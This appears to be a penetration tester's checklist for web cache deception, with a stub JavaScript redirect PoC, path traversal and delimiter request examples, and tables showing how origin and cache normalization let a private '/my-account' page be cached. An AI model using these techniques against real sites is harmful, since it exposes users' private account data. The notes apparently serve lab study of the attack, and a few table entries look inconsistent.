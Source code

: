 - [ ] Identify Cache usage
- [ ] Interesting PII pages that caches response
- [ ] Path Mapping Discrepancies WCD
- [ ] Delimiter Discrepancies WCD
- [ ] Delimiter Decoding Discrepancies WCD
- [ ] Find cached static folders
Exploit PoC
```html
<script>
  // Replace the URL below with your target link
  window.location.href = "https://example.com";
</script>
```
Delimiter list
https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list

Origin Server Normalization
- [ ] Test on static files where cache state can be found.
- [ ] Use timing and Ctrl + Shift + I to look at response time to identify cache.
```bash
/profile -> /profile (cache miss)
/profile -> /profile (cache hit)
/assets/..%2fprofile -> /profile (cache miss)
/assets/..%2fprofile -> /profile (confirm WCD origin normalization)

# responds as base means origin server decodes and normalizes
```

| requests  | request url                  | cache keys                     | origin           | cache state        |
| --------- | ---------------------------- | ------------------------------ | ---------------- | ------------------ |
| 1         | /profile                     | /profile                       | /profile         | miss               |
| 2         | /profile                     | /profiles                      | /profile         | hit                |
| 3         | /assets/..%2fprofile         | **(new)** /assets/..%2fprofile | /profile         | miss               |
| ==**4**== | ==**/assets/..%2fprofile**== | /assets/..%2fprofile           | ==**/profile**== | ==**hit (WCD!)**== |

Cache Server Normalization

| requests | request url                                     | cache keys                           | origin                            | cache state        |
| -------- | ----------------------------------------------- | ------------------------------------ | --------------------------------- | ------------------ |
| 1        | /resources/js/tracking.js                       | /resources/js/tracking.js            | /resource/js/tracking.js          | miss               |
| 2        | /resources/js/tracking.js                       | /resources/js/tracking.js            | /resource/js/tracking.js          | hit                |
| 3        | /resources/../resources/js/tracking.js          | **(same)** /resources/js/tracking.js | /resource/js/tracking.js          | hit                |
| ==4==    | ==**/resource/..%2fresources/js/tracking.js**== | ==**/resources/js/tracking.js**==    | ==**/resources/js/tracking.js**== | ==**hit (WCD!)**== |
| 5        | /my-account#/..%2fresource/js/tracking.js       | /resource/js/tracking.js             | /my-account                       | miss (Pwn)         |
- [ ] Intruder delimiter to find what can deceive the origin server in request 5